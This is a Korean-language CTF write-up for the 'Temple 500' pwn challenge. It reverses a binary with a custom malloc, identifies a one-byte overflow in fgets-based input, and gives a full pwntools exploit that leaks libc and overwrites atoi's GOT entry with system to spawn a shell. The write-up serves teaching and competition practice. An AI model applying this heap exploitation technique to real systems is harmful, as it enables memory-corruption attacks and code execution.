 Temple 500 (pwn)
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE   |
|---------------|--------------|------------|--------|----------|------------|--------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | temple | 

64 bit binary이며 https://tuctf.asciioverflow.com/files/1f9420bff145019e01b2446288e8dd37/mm.c 소스로 만들어진 custom malloc/custome free를 바이너리 내부에서 사용한다.

### 2. Reversing
```c
// wisdom struct

struct chunk
{
  int content_len;
  char *content;
  int m_check_len;
  char *m_check;
};
```

[1] Take wisdom  
- write(1, *content, content_len);
- write(1, *m_check, m_check_len);
- 만약에 m_check가 'Neonate\n'면 a1+8을 mm_free하며 그게 아니면 일반적인 mm_free를 한다.

[2] Give wisdom  
- 32byte chunk struct를 할당하고 content를 입력받고 m_check를 Neonate로 바꾼다.

[3] Rethink wisdom  
- content_len에 맞게 content를 입력받는다.

### 3. Vulnerability
```c
__int64 __fastcall readbytes(char *a1, int a2)
{
  fgets(a1, a2 + 1, stdin);
  return (a2 + 1);
}
```

readbytes 함수에서 size+1만큼 입력받아서 1byte overflow가 발생한다. 이것을 이용하여 익스플로잇을 할 수 있다.

### 4. Exploit

할당하는 chunk의 struct가 기본 malloc의 struct와 다른점은 prev_size와 size영역이 free가 되지 않더라도 둘다 남아있다는 점이다. 이 두개를 free할때 free청크가 두개있으면 청크 size를 합쳐서 큰 청크로 만들어주는데, 1byte overflow로 prev_size를 overwrite하여 원하는 힙 위치에 원하는 size를 입력시킬 수 있다.
이를 이용해서 content_len을 큰 사이즈로 overwrite하면 heap_overflow를 일으킬 수 있다. Rethink와 Take를 이용하여 leak과 got overwrite를 해서 풀 수 있다.

``` python
from pwn import *

e = ELF('./temple')
s = remote('temple.tuctf.com', 4343)
l = ELF('./libc.so.6')

def take(index):
	s.sendlineafter('Your choice: ','1')
	s.sendlineafter('seek?: ',index)

def give(size,content):
	s.sendlineafter('Your choice: ','2')
	s.sendlineafter('hold?: ',size)
	s.sendlineafter('wisdom?: ',content)

def rethink(index,content):
	s.sendlineafter('Your choice: ','3')
	s.sendlineafter('rethink?: ',index)
	s.sendlineafter('differently?: ',content)

give(str(0x10),'A' * 0x9)
give(str(0x10),p64(0x21) + p64(0xf0-0x30))
give(str(0x10),'A' * 0x9)
give(str(0x10),'A' * 0x9)
give(str(0x10),'A' * 0x9)
give(str(0x10),'B' * 0x9)
give(str(0x10),'A' * 0x9)
give(str(0x10),'A' * 0x9)
give(str(0x10),'A' * 0x9)
give(str(0x10),'A' * 0x9)
rethink('10','C' * 0x10 + '\x60') # 1byte overflow
take('11')
give(str(0x10),'C' * 0x9)


payload = 'A' * 0x10

# chunk 1
payload += p64(0x21) + p64(0x31) + p64(0x20) + p64(e.got['atoi'])
payload += p64(0x8) + p64(0x401d61)

# chunk 2
payload += p64(0x31) + p64(0x21) + 'A' * 0x10

# chunk 3
payload += p64(0x21) + p64(0x31) + p64(0x240) + p64(0x602f50)
payload += p64(0x8) + p64(0x401d60)

# chunk 4
payload += p64(0x31) + p64(0x21) + 'A' * 0x10

rethink('13',payload)
take('15')
s.recvuntil('\x7f')
s.recvuntil('\x7f')
s.recv(2)
print hex(u64(s.recv(8)[:6] + "\x00" * 2))
libc_base = u64(s.recv(8)[:6] + "\x00" * 2) - l.symbols['puts']
system = libc_base + l.symbols['system']

log.info('LIBC_BASE : ' + hex(libc_base))

rethink('14',p64(system))

s.interactive()
```


